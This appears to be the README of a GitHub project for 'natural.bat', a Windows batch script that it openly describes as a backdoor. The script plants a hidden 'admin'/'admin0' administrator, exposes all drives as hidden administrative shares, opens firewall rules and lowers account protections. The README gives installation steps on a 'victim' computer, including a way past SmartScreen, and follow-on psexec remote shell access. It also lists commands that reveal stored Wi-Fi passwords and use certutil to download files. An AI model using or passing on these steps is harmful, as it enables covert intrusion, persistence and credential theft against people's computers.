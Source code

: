 # Natural Backdoor for Windows
# natural.bat
Creates permanent and undetectable backdoor over administrative shares on Windoze boxes.
# What is it?
It's batch (cmd) file creates a backdoor which use the native features of windows. It does not create any suspicious anomaly indication in the system. It does not get caught by standard antivirus and firewalls. When the script is run with administrator rights, all hard disk drives of the victim computer are shared to the network as a hidden share (Windows administrational share). The hidden share can only be accessed by a secret administrator user created on the victim system. When the script is run on the victim computer, it performs the following operations, respectively.
- Adds 'admin' user with password 'admin0' into administrators group.
- Hides admin user from control panel and logon screen.
- Enables file sharing on Windows Firewall
- Enables windows administrative file sharing (c$ ipc$ admin$ etc...)
- Disables empty password account security
- Appends the mac address of the victim computer to the end of the script file with a alias.
# Install
Run the script on victim computer with administrative privileges. In some cases Windows Defender Smart Screen blocks to run script because of alternate data stream zone identifier that is appended to the file when it is downloaded from the internet. To run script with administration priviligies try the methods below:
- Via command window with administative privileges: Open windows menu and search "cmd" then right click and select "Run as administrator". Type full path of the bat file or drag&drop the bat file to command window (full path will appear) and press "Enter" to run file.
- Unblock the file: Run windows power shell with administrative privileges and type Unblock-File path/to/hadm.bat. From now on the batch file can be run without limitation. 
# Using
The address \\ip\c$ gives the attacker full access (including write) to the c drive of the victim's computer. See the image below. The admin:admin0 account used for access is a hidden account and does not appear on the victim computer's login screen and control panel. The script also adds the required firewall rule for samba access (windows shares), disabling the user account control. 

![Administrative shares](assets/administrative-shares.png "Administrative shares")

The script prompts for an alias for the target computer before it finishes running. The nickname entered is saved at the end of the hadmin.bat file along with the mac address of the computer on which the script is run. This mac address is stored to identify the victim computer on the network. If necessary, the current IP address of the target computer can be resolved by scanning the network from the mac address added to the end of the file.
# Next Stage: Remote Shell
You can run commands on the victim computer by taking advantage of the RPC feature of Windows. You can access the command line of the remote computer with the psexec program by downloading pstools from [the microsoft site](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec) (sysinternals). PSEXEC tries to connect to the Admin$ share of the remote computer, in order to copy on the remote machine the PSEXecSVC.exe, which is the binary of the Service that will run remotely. The following psexec tutorial runs cmd.exe in interactive mode on the remote computer. Once you have the command line, what you can do is limited by your imagination.

![Remote shell](assets/remote-shell.png "Remote shell")

# Some usefull shell commands

Some functional command examples listed below and [more](https://github.com/security-cheatsheet/cmd-command-cheat-sheet). 
> fsutil fsinfo drives **: Get fixed disk drives list.**\
> netsh wlan show profiles **: List stored wireless connection profiles.**\
> netsh wlan show profile name=<SSID Name> key=clear **: Show stored wireless key as clear text.**\
> certutil.exe -urlcache -split -f "url" setup.exe **: Downloads a file from command line without any external tool.\**

# Further Steps

Remote control victim computer  with UltraVNC. [Click](uvnc.md) for installation steps.

# Uninstall
Just run uhadmin.bat with administrative privileges Its revert all registry settings and drop admin account.  The control computer can still continue to access the victim computer via the open session. However, this access authorization will be completely lost when the computer is restarted.
# Tested on
- [ ] Windows 7
- [x] Windows 10 32/64
- [ ] Windows 11 32/64


